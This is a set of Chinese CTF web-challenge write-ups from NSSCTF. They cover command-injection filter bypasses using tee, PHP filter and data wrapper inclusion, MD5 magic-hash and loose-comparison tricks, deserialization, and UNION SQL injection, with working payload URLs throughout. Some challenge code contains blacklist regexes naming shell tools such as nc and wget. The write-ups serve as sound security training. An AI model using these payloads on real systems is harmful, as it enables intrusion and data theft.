## [SWPUCTF 2021 新生赛]finalrce
> url：https://www.nssctf.cn/problem/438
>知识点：无回显rce

```php
 <?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
} 
```
这里把flag，cat，ls等字符给过滤掉了，但是/符号没有过滤




用system没用，那么就试一下tee
 因为没有回显，所以需要把查看出来的内容读取并且写入一个地方来查看，tee命令就是从标准输入读取，再写入标准输出和文件。简单说就是把查看的内容读取然后写入到后面的1.txt文件
构造payload
```
http://node7.anna.nssctf.cn:25613/?url=l\s /|tee 1.txt;
```
再访问1.txt

用样的方法cat flllllaaaaaaggggggg
构造payload
```
http://node7.anna.nssctf.cn:25613/?url=c\at flllll\aaaaaaggggggg |tee 2.txt
```
不知道为什么ca\t没用，那就
```
http://node7.anna.nssctf.cn:25613/?url=tac /flllll\aaaaaaggggggg|tee 2.txt
```

得到flag

## [UUCTF 2022 新生赛]websign
>url:https://www.nssctf.cn/problem/3053


提示原代码有东西，但是右键没用

这个地方可以打开原代码


## [HDCTF 2023]Welcome To HDCTF 2023
>url:https://www.nssctf.cn/problem/3786

打开题目是一个游戏

调试器会发现jsfuck加密

解码得到flag


## [NSSCTF 2022 Spring Recruit]babyphp
>url:https://www.nssctf.cn/problem/2076

```php
 <?php
highlight_file(__FILE__);
include_once('flag.php');
if(isset($_POST['a'])&&!preg_match('/[0-9]/',$_POST['a'])&&intval($_POST['a'])){
    if(isset($_POST['b1'])&&$_POST['b2']){
        if($_POST['b1']!=$_POST['b2']&&md5($_POST['b1'])===md5($_POST['b2'])){
            if($_POST['c1']!=$_POST['c2']&&is_string($_POST['c1'])&&is_string($_POST['c2'])&&md5($_POST['c1'])==md5($_POST['c2'])){
                echo $flag;
            }else{
                echo "yee";
            }
        }else{
            echo "nop";
        }
    }else{
        echo "go on";
    }
}else{
    echo "let's get some php";
}
?> let's get some php
```
知识点：
```
1、对于php强比较和弱比较：md5()，sha1()函数无法处理数组，如果传入的为数组，会返回NULL，两个数组经过加密后得到的都是NULL，也就是相等的。

2、对于某些特殊的字符串加密后得到的密文以0e开头，PHP会当作科学计数法来处理，也就是0的n次方，得到的值比较的时候都相同。
常见的md5和sha1
md5：
 
240610708:0e462097431906509019562988736854
QLTHNDT:0e405967825401955372549139051580
QNKCDZO:0e830400451993494058024219903391
PJNPDWY:0e291529052894702774557631701704
NWWKITQ:0e763082070976038347657360817689
NOOPCJF:0e818888003657176127862245791911
MMHUWUV:0e701732711630150438129209816536
MAUXXQC:0e478478466848439040434801845361
 
 
sha1：
 
10932435112: 0e07766915004133176347055865026311692244
aaroZmOk: 0e66507019969427134894567494305185566735
aaK1STfY: 0e76658526655756207688271159624026011393
aaO8zKZF: 0e89257456677279068558073954252716165668
aa3OFF9m: 0e36977786278517984959260394024281014729
0e1290633704: 0e19985187802402577070739524195726831799
```
这里把数字过滤了就不能用数组绕过了

继续解题
对于a,b1,b2只要用数组过滤就可以了，c1,c2因为要求是字符，所以用md5绕过
最后得到flag


## [HNCTF 2022 Week1]Interesting_include
>url:https://www.nssctf.cn/problem/2900
>知识点：文件包含

```php
<?php
//WEB手要懂得搜索
//flag in ./flag.php

if(isset($_GET['filter'])){
    $file = $_GET['filter'];
    if(!preg_match("/flag/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```
用伪协议读，构造payload：
```
http://node5.anna.nssctf.cn:25698/?filter=php://filter/read=convert.base64-encode/resource=flag.php
```

base64解码

得到flag

## [鹤城杯 2021]EasyP
>url:https://www.nssctf.cn/problem/463
>知识点：文件包含

```php
<?php
include 'utils.php';

if (isset($_POST['guess'])) {
    $guess = (string) $_POST['guess'];
    if ($guess === $secret) {
        $message = 'Congratulations! The flag is: ' . $flag;
    } else {
        $message = 'Wrong. Try Again';
    }
}

if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("hacker :)");
}

if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){
    exit("hacker :)");
}

if (isset($_GET['show_source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
    exit();
}else{
    show_source(__FILE__);
}
?> 
```
这道题难在容易被post迷惑，其实不是post传参，是利用$_SERVER函数来show_source(__FILE__);


$_SERVER[...]：是一个包含了诸如头信息（header）、路径（path）、以及脚本位置（script locations）等信息的数组。根据中括号内传入的参数不同，返回不同的信息，下面是题目涉及的两个参数：

'PHP_SELF'：返回当前执行脚本的文件名。例如：在地址为http://example.com/foo/bar.php的脚本中使用 $_SERVER['PHP_SELF'] 将得到 /foo/bar.php

'REQUEST_URI'：取得当前URL的路径地址，感觉跟上面那个没啥区别

 basename()：返回路径中的文件名部分

接着我们看代码：

第一个if语句，当POST传入的参数$guest等于$secret时返回flag，但这里不知道$secret是啥，先不管

第二个if语句，检查当前执行脚本的文件名，从后往前若找到utils.php则过滤掉

    模式分隔符后的"i"标记这是一个大小写不敏感的搜索

第三个if语句，检查当前URL的路径地址，若出现show_source则过滤掉

第四个if语句，检查show_source是否有定义

综上，我们先忽略POST传参，其次我们需要GET传入show_source，使得路径包含我们需要查看的文件，利用文件包含highlight_file使得页面回显php代码，即题目提示的utils.php
构造payload
```
http://node4.anna.nssctf.cn:28418/index.php/utils.php/哈哈?show[source=1
```
得到flag


## [SWPUCTF 2022 新生赛]ez_ez_php(revenge)
>url:https://www.nssctf.cn/problem/2821
```php
 <?php
error_reporting(0);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

    else {
        echo "Hacker!!";
    }
}else {
    highlight_file(__FILE__);
}
//flag.php 
```
代码的意思是确认file的前三个字符是php，刚好用php伪协议读flag就包含了前三个字符是php的前提条件

构造payload：
```
http://node5.anna.nssctf.cn:27422/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

然后解码
```php
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");


echo   "NSSCTF{flag_is_not_here}" ."<br/>";
echo "real_flag_is_in_ '/flag' "."<br/>";
echo "换个思路，试试PHP伪协议呢";

```
提示了flag在/flag里，修改payload
```
http://node5.anna.nssctf.cn:27422/?file=php://filter/read=convert.base64-encode/resource=/flag
```

再解码得到flag
NSSCTF{8e567b75-c892-40a9-9f28-698640521510}

## [HUBUCTF 2022 新生赛]checkin
>url:https://www.nssctf.cn/problem/2602
>知识点：反序列化，弱比较

```php
<?php
show_source(__FILE__);
$username  = "this_is_secret"; 
$password  = "this_is_not_known_to_you"; 
include("flag.php");//here I changed those two 
$info = isset($_GET['info'])? $_GET['info']: "" ;
$data_unserialize = unserialize($info);
if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){
    echo $flag;
}else{
    echo "username or password error!";

}

?>
```
这里要满足反序列化的弱比较
但是注意进行序列化的时候不是用username  = "this_is_secret"和password  = "this_is_not_known_to_you"。因为第五行说了已经修改过内容了，所以如下构造是错的
```php
<?php
$info=array("username"  => "this_is_secret","password " => "this_is_not_known_to_you");
$info=serialize($info);
var_dump($info);
?>
```

在这里正确的方法是
```php
<?php
$info = array(
	'username'=>true,
	'password'=>true
);
echo  serialize($info);

```

所以构造payload:
```
http://node5.anna.nssctf.cn:27731/?info=a:2:{s:8:"username";i:0;s:8:"password";i:0;}
```


## [LitCTF 2023]这是什么？SQL ！注一下 ！
>url:https://www.nssctf.cn/problem/3868
>知识点：布尔盲注


根据提示判断闭合方式为))))))
然后查询回显位数


回显两位

上图显示两位都有数据
构造payload查看表名
```
http://node5.anna.nssctf.cn:24324/?id=-1)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

只有一个users表，然后查询表中所有列名，构造payload：
```
http://node5.anna.nssctf.cn:24324/?id=1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"--+
```

有三列
然后
```
-1)))))) union select username,password from users--+
```
查询内容

得到一个假的flag
看来不是这个数据库
```
-1)))))) union select 1,schema_name from information_schema.schemata--+

```
查询其他数据库

看到还有一个 ctftraining 数据库
然后经行同样的操作
```
id=-1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema="ctftraining" 
```
区别就是将原来的database()改为数据库名，记住加双引号
```
http://node5.anna.nssctf.cn:24324/?id=-1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema="ctftraining" and table_name="flag"--+

```


```
-1)))))) union select 1,flag from ctftraining.flag--+
```
构造paload查找内容

得到falg

## [GDOUCTF 2023]泄露的伪装
>url:https://www.nssctf.cn/problem/3700
>知识点：php伪协议

直接用随波逐流扫描目录

一个一个试过去，到test.txt，得到一段php代码
```php
<?php
error_reporting(0);
if(isset($_GET['cxk'])){
    $cxk=$_GET['cxk'];
    if(file_get_contents($cxk)=="ctrl"){
        echo $flag;
    }else{
        echo "娲楁礂鐫″惂";
    }
}else{
    echo "nononoononoonono";
}
?>
```
这里主要需要理解file_get_contents函数
构造cxk参数使其指向内容为"ctrl"的资源，用data协议可以将内容写入
构造payload：
```
http://node5.anna.nssctf.cn:24082/orzorz.php?cxk=data://text/plain,ctrl
```


## [UUCTF 2022 新生赛]ez_rce
>url:https://www.nssctf.cn/problem/3090
>知识点：RCE

```php
居然都不输入参数，可恶!!!!!!!!!

<?php
## 放弃把，小伙子，你真的不会RCE,何必在此纠结呢？？？？？？？？？？？？
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if (!preg_match('/sys|pas|read|file|ls|cat|tac|head|tail|more|less|php|base|echo|cp|\$|\*|\+|\^|scan|\.|local|current|chr|crypt|show_source|high|readgzfile|dirname|time|next|all|hex2bin|im|shell/i',$code)){
        echo '看看你输入的参数！！！不叫样子！！';echo '<br>';
        eval($code);
    }
    else{
        die("你想干什么？？？？？？？？？");
    }
}
else{
    echo "居然都不输入参数，可恶!!!!!!!!!";
    show_source(__FILE__);
}

```
这里将许多东西过滤掉了，比如system和pasthruh
看了一下别人的wp，还可以用printf，而且\也没有被过滤
构造payload
```
http://node5.anna.nssctf.cn:20716//?code=printf(`l\s /`);
```
注意这里是" ` " 不是" ' ",传入分号是因为code是作为一条php语句执行的

用同样的方法cat flag
```
http://node5.anna.nssctf.cn:20716//?code=printf(`c\at /fffffffffflagafag`);
```



## [HNCTF 2022 Week1]2048
>url:https://www.nssctf.cn/problem/2898
>知识点：js


打开是一个游戏界面

在js里找到了游戏结束时会输出一段字符串
方法1：下断点，并在控制台里给this.score赋值20000；
方法2：直接放进随波逐流里面


